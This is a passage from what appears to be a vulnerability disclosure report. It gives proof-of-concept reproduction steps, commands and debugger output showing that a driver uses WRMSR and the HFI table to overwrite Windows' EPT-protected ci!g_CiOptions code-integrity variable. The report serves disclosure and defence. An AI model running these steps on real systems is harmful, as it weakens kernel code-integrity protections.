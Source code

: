       The I/O operation has been aborted because of either a thread exit or an application request
      ```
      The error message is expected. If DbgView is running, it should show messages like this:
      ```
      Starting the driver: Current MSR values:
      0x1b1 : 0x88320a82
      0x17d0: 0x48f7eb001
      0x17d1: 0x3
      Patched nt!PpmHeteroHgsEnabled. Hibernate the system, wake it up, and rerun this
      DriverEntry failed 0xc0000120 for driver \REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\msr
      ```
5. From the start menu, select "Shut down" (alternatively, "Hibernate")
6. Boot the system
7. Rerun the PoC
   1. Start the command prompt with administrator privileges
   2. Optionally, start DbgView with the administrator privileges and enable "Capture Kernel"
   3. Rerun the PoC
      ```
      >sc start msr
      [SC] StartService FAILED 995:

      The I/O operation has been aborted because of either a thread exit or an application request.
      ```
      The error message is expected. If DbgView is running, it should show messages like this:
      ```
      Starting the driver: Current MSR values:
      0x1b1 : 0x88300a82
      0x17d0: 0x0
      0x17d1: 0x0
      Populating the HFI table at 0x11cecb000
      DriverEntry failed 0xc0000120 for driver \REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\msr
      ```
8. Check that the memory contents has changed
   1. Start `livekd` and run the following command:
      ```
      0: kd> dd ci!g_CiOptions
      fffff806`18ac4004  00000002 00000101 00000000 00005c3d
      fffff806`18ac4014  00000000 00005c3d 00000000 00006424
      fffff806`18ac4024  00000000 00006424 00000000 00000000
      fffff806`18ac4034  00000000 00000000 00000000 00000000
      fffff806`18ac4044  00000000 00000000 00000000 00000000
      fffff806`18ac4054  00000000 00000000 00000000 00000000
      fffff806`18ac4064  00000000 00000000 00000000 00000000
      fffff806`18ac4074  00000000 00000000 00000000 00000000
      ```


## Expected result

The root partition is unable to corrupt a page that is write-protected or inaccessible due to EPT settings. `WRMSR` at the step 7 should trigger #GP or be no-op.
